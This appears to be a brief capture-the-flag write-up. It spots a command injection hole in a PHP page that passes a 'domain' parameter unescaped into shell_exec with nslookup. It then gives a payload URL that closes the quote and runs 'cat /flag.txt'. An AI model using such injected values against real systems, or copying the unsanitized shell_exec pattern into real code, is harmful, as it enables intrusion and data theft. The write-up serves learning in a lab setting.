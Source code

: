 # Solution

First take a look at source code
![alt text](image.png)<br>
Hmm from my experience, the vuln appears in this code

```
if (isset($_GET['domain'])) {
    $domain = $_GET['domain'];
    $result = shell_exec("nslookup '$domain'");
}
```

We just need to escape single quote and add a payload to read flag.txt file

```
http://103.97.125.56:30997/index.php?domain=example.com%27;cat%20/flag.txt%27
```

Bonus: %27 === '

![alt text](image-1.png)<br>
